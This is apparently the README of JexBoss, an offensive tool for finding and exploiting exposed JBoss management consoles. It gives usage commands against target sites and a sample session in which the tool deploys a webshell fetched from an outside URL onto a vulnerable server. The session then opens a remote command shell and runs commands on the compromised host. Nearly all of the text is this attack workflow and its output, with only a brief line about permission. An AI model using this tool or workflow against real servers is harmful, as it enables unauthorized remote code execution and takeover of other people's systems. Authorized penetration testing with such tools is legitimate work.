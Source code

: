 jexboss
=======

JexBoss: Jboss verify and EXploitation Tool

---- Usage examples: ----------------------

python jexboss.py https://site.com

python jexboss.py https://site.com:8443

python jexboss.py 192.168.1.10:8080
--------------------------------------------

---- Example: -----------------------------

$ python jexboss.py https://site-teste.com

 * --- JexBoss: Jboss verify and EXploitation Tool  --- *
 |                                                      |
 | @author:  João Filho Matos Figueiredo                |
 | @contact: joaomatosf@gmail.com                       |
 |                                                      |
 | @update: https://github.com/joaomatosf/jexboss       |
 #______________________________________________________#


 ** Checking Host: https://site-teste.com **

 * Checking web-console: 	       [ OK ]
 * Checking jmx-console: 	       [ VULNERABLE ]
 * Checking JMXInvokerServlet: 	 [ VULNERABLE ]


 * Do you want to try to run an automated exploitation via "jmx-console" ?
   This operation will provide a simple command shell to execute commands on the server..
   Continue only if you have permission!
   yes/NO ? yes

 * Sending exploit code to https://site-teste.com. Wait...


 * Info: This exploit will force the server to deploy the webshell 
   available on: http://www.joaomatosf.com/rnp/jbossass.war
 * Successfully deployed code! Starting command shell, wait...

 * - - - - - - - - - - - - - - - - - - - - LOL - - - - - - - - - - - - - - - - - - - - * 

 * https://site-teste.com: 

 Linux fwgw 2.6.32-431.29.2.el6.x86_64 #1 SMP Tue Sep 9 21:36:05 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

 CentOS release 6.5 (Final)

 uid=509(jboss) gid=509(jboss) grupos=509(jboss) context=system_u:system_r:initrc_t:s0

[Type commands or "exit" to finish]
Shell> pwd
/usr/jboss-6.1.0.Final/bin

[Type commands or "exit" to finish]
Shell> hostname
fwgw

[Type commands or "exit" to finish]
Shell> ls -all /tmp 
total 35436
drwxrwxrwt.  4 root root     4096 Nov 24 16:36 .
dr-xr-xr-x. 22 root root     4096 Nov 23 03:26 ..
-rw-r--r--.  1 root root 34630995 Out 15 18:07 snortrules-snapshot-2962.tar.gz
-rw-r--r--.  1 root root       32 Out 16 14:51 snortrules-snapshot-2962.tar.gz.md5
-rw-------.  1 root root        0 Set 20 16:45 yum.log
-rw-------.  1 root root     2743 Set 20 17:18 yum_save_tx-2014-09-20-17-18nQiKVo.yumtx
-rw-------.  1 root root     1014 Out  6 00:33 yum_save_tx-2014-10-06-00-33vig5iT.yumtx
-rw-------.  1 root root      543 Out  6 02:14 yum_save_tx-2014-10-06-02-143CcA5k.yumtx
-rw-------.  1 root root    18568 Out 14 03:04 yum_save_tx-2014-10-14-03-04Q9ywQt.yumtx
-rw-------.  1 root root      315 Out 15 16:00 yum_save_tx-2014-10-15-16-004hKzCF.yumtx

[Type commands or "exit" to finish]
Shell>

